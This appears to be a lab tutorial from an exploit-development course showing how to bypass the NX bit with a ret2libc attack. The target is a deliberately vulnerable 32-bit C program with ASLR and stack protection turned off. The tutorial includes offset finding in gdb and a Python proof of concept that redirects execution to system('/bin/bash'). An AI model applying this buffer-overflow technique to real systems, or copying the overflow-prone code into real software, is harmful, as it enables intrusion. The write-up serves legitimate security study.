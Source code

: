 # 1. What is No Execute
- The NX bit (no-execute) is a technology used in CPUs to segregate areas of memory for use by either storage of processor instructions (code) or for storage of data, a feature normally only found in Harvard architecture processors. However, the NX bit is being increasingly used in conventional von Neumann architecture processors for security reasons.

- Return to library C (ret2libc) and return to system (ret2sys) are technique usally use to bypass the No Execution bit and is the technique I'll use in this report.
----------
# 2. NX Bypass
## 2.1 Building Up Environment

This is the source code we will use for exploit example:

```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
  char buf[500];
  int userinput;
  userinput = read(0, buf, 700);
  printf("\nUser provided %d bytes.\nBuffer content is: %s\n", userinput, buf);
  return 0;
}

int main(){
  overflow();
  return 0;
}
```

Build the source code:

```bash
gcc vulnerable.c -m32 -fno-stack-protector -o vulnerable
```

Make sure, the machine has already turned off the ASLR. To turn off it:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Using **checksec** to make sure that only Stack Canary is disabled

![image1.png](image1.png)

## 2.2. Getting An Interesting Target
First up, I know the program have buffer size is 500, so let's try to make it crashing 500 buffer ``python -c 'print("A"*700)' | ./vulnerable``.

![image2.png](image2.png)

Nothing happned, so try bigger size to see length make crashing:

![image3.png](image3.png)

Opening debugger to debug the program, in here I will use the gdb-peda to debug and using peda's feature to make pattern and get the exact size the program crashed **(You can also use msf-pattern_create and msf-pattern_offset)**.

![image4.png](image4.png)

![image5.png](image5.png)

## 2.3. Getting Return Address
Making a string to determine where is the start of buffer 'A':
- `python -c "print('A'*516+'B'*4)" > input.txt`

![image6.png](image6.png)

![image7.png](image7.png)

So, **0xffffd088** is where the buffer start at. So we will make a script to spawn the buffer and last 4 byte will be the returned address which we got above.

```python
#!/usr/bin/python2
from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xffffd088) # Start of A character

print payload
open('input.txt', 'wb').write(payload)
```

Run the file in gdb and determine if the program crashed ad  **0x41414141** or not:

```bash
gdb-peda$ r < input.txt
Starting program: vulnerable < input.txt

User provided 520 bytes.
Buffer content is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0x0
EDX: 0x1
ESI: 0xf7fa6000 --> 0x1e4d6c
EDI: 0xf7fa6000 --> 0x1e4d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
EIP: 0xffffd088 ('A' <repeats 200 times>...)
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0xffffd088:  inc    ecx
   0xffffd089:  inc    ecx
   0xffffd08a:  inc    ecx
   0xffffd08b:  inc    ecx
[------------------------------------stack-------------------------------------]
0000| 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
0004| 0xffffd294 --> 0xf7fa6000 --> 0x1e4d6c
0008| 0xffffd298 --> 0x0
0012| 0xffffd29c --> 0xf7ddfe46 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd2a0 --> 0x1
0020| 0xffffd2a4 --> 0xffffd344 --> 0xffffd4b8 ("/home/th3knight/Desktop/learning/shellcoding/ine/DEP/vulnerable")
0024| 0xffffd2a8 --> 0xffffd34c --> 0xffffd4f8 ("SHELL=/bin/bash")
0028| 0xffffd2ac --> 0xffffd2d4 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xffffd088 in ?? ()
```

The program crashed with **0xffffd088** with no reason. This is because of NX bit is enabled so this will kill when user tried to execute from their inputted data. Re run the debugger, breakpoint at main `br *main`, and run.

The technique of ret2libc will be:
- Buffer_size + Execution_function_address + Return_address + Arguments_address 

Quick taking address of system `print system`, exit `print exit` and arguments `find "/bin/bash"` export these address.

![image8.png](image8.png)

## 2.4 Proof of Concept (PoC)

```python
#!/usr/bin/python2

from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xf7e06000) # System_func address @@ exec_function
payload += pack('<I', 0xf7df8950) # Exit_func address @@ ret_func
payload += pack('<I', 0xf7f4d338) # Arguments address

print payload
```

![image9.png](image9.png)

Nothing happended, because there is no listener to keep and get the input, output. So we will use the cat to be that listener.
- `(./exploit.py ; cat) | ./vulnerable`

![image10.png](image10.png)

-----------------
# 3. Reference
- [https://en.wikipedia.org/wiki/NX_bit](https://en.wikipedia.org/wiki/NX_bit)
- [https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development](https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development)
---
